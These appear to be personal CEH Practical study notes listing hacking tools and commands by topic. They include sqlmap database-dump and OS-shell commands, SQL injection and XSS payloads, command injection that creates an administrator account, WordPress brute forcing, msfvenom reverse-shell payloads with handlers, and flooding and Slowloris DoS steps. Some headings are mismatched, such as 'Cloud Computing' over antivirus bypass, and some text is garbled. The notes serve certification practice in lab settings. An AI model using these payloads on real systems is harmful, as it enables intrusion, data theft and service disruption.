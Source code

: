 # Important resources
> [Resources](https://github.com/Samsar4/Ethical-Hacking-Labs/blob/master/5-System-Hacking/10-Covert_TCP.md):


## 2)Footprinting and Reconnaissance
<details>
    <summary> Reconnasiance/Footprinting</summary>
<details>
    <summary> 1) Windows CLI tools </summary>

```bash
$ ping <ip>
 or 
$ ping www.domain.com
```
````console
$ ping <host-ip> -f -l 1300
````
```bash
$ nslookup <domain.com>
```
```bash
$ tracert <doamin>

$ traceroute <host-ip>
```
</details>


### 2)Edit,Debug and monitor
<details>
    <summary> 2)Firebug </summary>
    
- Firebug extension Integrated with Firefox
  
</details>

### 3)Mirroring website:
<details>
    <summary> Mirroring</summary>
    
- Windows: HTTrack

- Linux: wget
```bash
 $ wget <url-of-website>
``` 
#### Note:- check wget -h for options

</details>

### 4)Advance route tracing 
#### Tool: Path Analyzer Pro

<details>
    <summary> 5)Information Gathering Using Metasploit</summary>

#### Extract accurate information about a network using Metasploit Framework.

```bash
$ service postgresql start
```
```bash
In msf type 
$db_status
```
If error then exit and type below commands
- To initialize database
```
$ msfdb init
```
```
$ service postgresql start
```
relaunch metasploit Framework
```
$ msfconsole
$ db_status
$ nmap -Pn -sS -A -oX <output_file> <subnet(xx.xx.xx.x/24)>
```
you can use different options and also remove some options
```
$ hosts
```
to get host information

```
$ use auxilliary/scanner/smb/smb_version
or 
$ use /scanner/smb/smb_version
$ show options
$ set RHOSTS xx.xx.xx.8-16
$ set THREADS 1000
$ run 
```
- Now you can see the os_flavor 
- Hence Extracted information about network using metasploit
</details>
</details>

## 3)Scanning Networks
<details>
    <summary>Scanning Networks</summary
- Port Scanning using Hping3:

```bash
hping3 --scan 1-3000 -S 10.10.10.10
```
--scan parameter defines the port range to scan and –S represents SYN flag.

- Pinging the target using HPing3:
```
hping3 -c 3 10.10.10.10
```
-c 3 means that we only want to send three packets to the target machine.

- UDP Packet Crafting
```
hping3 10.10.10.10 --udp --rand-source --data 500
```
- TCP SYN request
```
hping3 -S 10.10.10.10 -p 80 -c 5
```
-S will perform TCP SYN request on the target machine, -p will pass the traffic through which port is assigned, and -c is the count of the packets sent to the Target machine.

- HPing flood
```
hping3 10.10.10.10 --flood
``` 

-  ### Tools:
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/248179ca-8bb3-4bf4-ba33-c6520e0054df)

</details>


## 4)Enumeration
<details>
    <summary>Enumeration</summary>

###  1) NetBios Enumeration
#### Tool: Global Network Inventory
- Audit Scan Mode >> Select IP range >> Authentication setting >> connect as windows 12(victim) server using credentials that is currently logged on
- The Scan Summary tab displays a brief summary of machine that has been scanned. It will shows you the Machine name, MAC Address, OS installed, and etc.
- User groups,Services,Installed Softwares etc can be seen in the scan summmary.
  
### 2) Network Resources
#### Tool: Advanced IP Scanner  
- Enumerate network resources using Advanced IP Scanner.
- Perform a system ard network scan, Enumerate user accounts, Execute remotepenetration, Gather information about local network
- Input range of IP
- Now you have the IP address, Name, MAC address, and Manufacturer information of the victim machine.

### 3) Network enum using superscan
#### Tool: Superscan
- Lists of computers that belong to a domain
- Lists Of shares on the individual hosts on the network
- Policies and passwords
- Enter hostname/IP/URL >> select Enumeration type >> and see the scan result for required information.

### 4) Resurces in Local machine
#### Tool: Hyena
- Click '+' node of local workstation to expand section.
- select different nodes to view their information
- Users, Services, User Rights, Scheduled jobs

### 5) SMB ENumeration
#### Tools: nbstat,nmap

- In windows 12
```bash
nmap -O <win-12-ip>
```

```bash
nbstat -A xx.xx.xx.xx  //perform nbstat scan on port 139 in cmd
net use
net use \\xx.xx.xx.xx\e ""\user:""
net use \\xx.xx.xx.16\e""/user:""  //create null session 
// xx.xx.xx.16 is windows server 16
```
- disconnect drive Z
-this creates a null session 
- confirm by using
```bash
net use // session with name e would have been created
```


##### Note: Your first target is the computer with a Windows OS on which you can see ports 139 and 445 open. Remember, this usually works only against Windows but may partially succeed if other OSs have these ports open. There may be more than one system with NetBIOS open. You see that ports 135. 139.445. etc. are open and port 139 is using NetBIOS.

  ### 6) Some other tools
#### Tools:
- NetBIOS Enumerator
- SoftPerfect Network Scanner

</details>

## 5) Vulberability Analysis
<details>
    <summary>Vulnerability Analysis</summary>

- ### Nessus Vulnerability Scanner

- ### Nikto

```bash
nikto -h url -Cgidirs all
```
</details>

## 17) Android Hacking
<details>
    <summary>Android Hacking</summary>

    
### ADB
```bash
netdiscover -r xx.xx.xx.xx/24
nmap -O xx.xx.xx.4
apt-get update
apt-get install adb -y
```

- Use
```bash
adb devices -l
adb connect xx.xx.xx.4:5555 //5555 is port of android discovered in 'nmap -O' scan
adb shell // 'To get shell access'
```
- You can run commands like

```bash
pwd
cd
ls
echo
```

#### Download a File from Android using ADB tool
```bash
adb pull /sdcard/log.txt C:
adb pull sdcard/log. txt /home/murphy/Desktop
```

### Phonesploit
- Refer README.md
  
</details>

## 15) SQL Injection

<details>
    <summary>SQL Injection</summary>
    
- ### SQLMAP Extract DBS
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="xookies xxx" --dbs
```
- ### Extract Tables
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope --tables
```
- ### Extract Columns
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --columns
```
- ### Dump Data
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" -D moviescope -T User_Login --dump
```
- ### OS Shell to execute commands
```bash
sqlmap -u “http://www.example.com/viewprofile.aspx?id=1” --cookie="cookies xxx" --os-shell
```
- ### Login bypass
```bash
blah' or 1=1 --
Insert data into DB from login
blah';insert into login values ('john','apple123');
Create database from login
blah';create database mydatabase;
Execute cmd from login
blah';exec master..xp_cmdshell 'ping www.moviescope.com -l 65000 -t'; -- 
```
</details>

## Malware Threats
<details>
    <summary>Malware Threats </summary>
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/66f39b98-d3e1-4070-ae52-ef89fb2c6183)

 ![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/69d2c29b-24b6-451c-8f49-d2aa832b9855)
 ![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/d6015e48-a7cd-4370-994f-f56cce36f07e)
 ![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/7a2cfc60-85a8-477d-9a31-1fc31bfcf94e)
 
</details>


## 8) Sniffing
<details>
    <summary> Wireshark</summary>
      - Some useful wireshark command 
```
filter : http
option --> find packet->> select string --> pwd  // to find pwd string in packets
```
=======================================================================================================================================================================
- Sets a filter for any packet that has x.x.x.x as the source or destination IP address. This is very useful if, let’s say, you want to analyze specific traffic. Applying this filter helps you analyze outgoing traffic to see which one matches the IP or source you’re looking for.
```
ip.addr == x.x.x.x
``` 
 
- You can also choose to use ``` ip.dst == x.x.x.x```  to filter only by destination or ``` ip.src == x.x.x.x ``` to filter by source.
 
- Sets a conversation filter between two specific IP addresses. This one helps you check the data between two specific hosts or networks. It helps you when you are looking for specific data, so you don’t have to go through others that don’t interest you. 
 ```
ip.addr == x.x.x.x && ip.addr == x.x.x.x 

(or ip.src == xxxx && ip.dst == xxxx - for a destination)
``` 

Sets a filter to display all http and dns protocols. It lets you narrow down to the exact protocol you need. So, if you need to track down an odd FTP traffic, then you just have to set it for ‘ftp’. Want to find out why some websites don’t appear? You just have to set it to ‘dns’.
```
http or dns
```


tcp.port==xxx

Sets filters for any TCP packet with a specific source or destination port. Sometimes is just useful and less time consuming to look only at the traffic that goes into or out of a specific port.

 
- Sets filters to display all TCP resets. All packets have a TCP, if this is set to 1, it tells the receiving computer that it should at once stop using that connection. So, this filter is a powerful one, being that a TCP reset kills a TCP connection immediately.
- 
tcp.flags.reset==1



 

tcp contains xxx

It’s a filter that displays all TCP packets that contain a certain term (instead of xxx, use what term you’re looking for). For example, if you are looking for a specific term appearing in the packet, this filter is what you need.

 
- Follows a tcp stream.
```
tcp.stream eq X
```

- Filters by sequence number.
```
tcp.seq == x
```
 
- Important for troubleshooting, this filter detects push events.
``` 
tcp.flags.push == 1
```

- This one filters all HTTP GET and POST requests. It can show the most accessed webpages.
````
 http.request
 ````

- Designed to filter out certain types of protocols, it masks out arp, icmp, dns, or other protocols you think are not useful. This will allow you to focus of what traffic interests you.
```
 !(arp or icmp or dns)
 ```

- It sets a filter for certain HEX values at any offset.
```
udp contains xx:xx:xx
```


 
- Indicates which dns requests couldn't be correctly resolved.
 ```
dns.flags.rcode != 0
 ```

</details>

</details>


## 9)Social Engineering
<details>
    <summary>Social</summary>

### Tool: Social Engineering Toolkit(linux)

</details>

## 10)DOS

<details>
    <summary>DoS</summary>
    
- Spoof IP
- SYN Flooding
    
```
use auxiliary/dos/tcp/synflood
show options
SYN flooding on port 4444
set timeout 20000 //rest as shown in option
```
   
</details>

## 11)Session Hijacking
<details>
    <summary>Session Hijacking</summary>


</details>

## 14)Web Application Hacking
<details>
    <summary> Web Hacking</summary>
    
### 1) Parameter Tampering
    - Changing ?id=1 or 2 or 3 to switch user.
### 2) XSS
      - In cotactact us page i the commrent section post the following script `<script>alert("You are Hacked")</script>`

### 3) WPScan
- SkipFish : Active Recon for Websites 
  
```console
skipfish -o 202 http://192.168.1.202/wordpress
```

- Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)
  
```shell
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
    
```
### 4) RCE
- In DVWA application to ping.
```bash
| hostname  //name of target machine
| whoami   // user,groups,privileges
| tasklist  //lists running process
| dir C:\
| net user
| net user Test /Add
| net user 
| net user Test //displays info about user Test
| net localgroup Administrators Test /Add
| net user Test //now it's in Administrator

```
- To launch Remote Desktop Connection, navigate to ```Start--> Windows Accessories--> Remote Desktop Connection```

### 5)Web Application Framework
<details>
<summary> Auditing </summary>

#### Tools: Vega(Linux)
- Enter URL --> select Injection and Response modules --> click yes --> check Scan summary


###  WVS 
#### Tool: Acunetics WVS

</details>

### 6) File Upload Vulnerbility
-  ``` msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.11 lport=4444 -f raw ```  
- This command will generate a php raw payload.
- copy the payload and make a .php file
-  ```msfconsole``` . Now you have to establish a meterpreter session with your victim
```
Type use multi/handler and hit Enter.
Type set payload
php/meterpreter/reverse_tcp and hit
Enter.
Type set lhost 10.10.10.11 and hit Enter.
set Iport 4444
and hit Enter.
- vist the uri where the file is to execute on web browser
```
</details>



## 18)IOT Hacking
<details>
    <summary>IOT</summary>
    
### Tools:
- Shodan.io

- CRITIFENCE
```
 CRITIFENCE is an online database that stores default passwords of critical infrastructure, SCADA, [CS, and 110T Attackers can use this tool to discover
the default credentials of an OT system It lists information such as product code, vendor, device type and its default username and password
  ```
- Nmap
![image](https://github.com/Priansh71/CEH-Practical/assets/90593472/dbe2d60e-4af9-4376-b4ed-baa7e21dee5d) // nmap different types of scans.

- Scada
    - SCADA Shutdown Tool is an ICS testing and automation tool that allows attackers to fuzz, scan, and run remote commands on ICS/SCADA networks and controllers
    - Attackers use this tool to examine and enumerate slave controllers and SCADA security systems as well as read register values of the controller and rewrite register data.
      
- #### Other Tools
      - Nessus
      - wireshark
</details>

## 19)Cloud Computing
<details>
    <summary>Bypassing Antivirus</summary>

```
In the terminal type: 
msfvenom -p linux/x86/shell/reverse_tcp LHOST=IO.IO.IO.11  LPORT=4444 --platform linux -f elf > /root/Desktop/exploit.elf  
//  -f elf shows the type of payload file we want to create
This will generate exploit.elf on Desktop
```
- upload it it share folder 
- capture request in msfconsole:
```
 use multi/handler
set payload linux/x86/reverse_tcp 
LHOST = xx.xx.xx.xx
LPORT = 4444
```

</details>


<details>
    <summary>DoS using Slowloris</summary>
 
- Capture request using wireshark
- In Terminal
    
```
cd /Desktop/Slowloris
ls  // slowloris.pl
./Slowloris.pl -dns xx.xx.xx.xx
Hence the Dos attack was executed.

```
</details>
    
## 20)Cryptography    
<details>
    <summary>Cryptography</summary>
</details>

## Host DIscovery
<details>
    <summary>Hsot Discover</summary>
```
ARP Ping Scan:           nmap -sn -PR <Target IP Address>    ARP request probe
UDP Ping Scan:           nmap -sn -PU <Target IP Address>    UDP request
ICMP ECHO Ping Scan:     nmap -sn -PE <Target IP Address>    ICMP LCBO request

</details>

#  LLMNR/NBT-NS Poisoning
<details>
<summary> LLMNR/NBT</summary>
  
- [Reference Guide](https://certmaster.me/a-detailed-guide-on-responder-llmnr-poisoning-22f3a07b9786?gi=809a695ee049):

  </details>
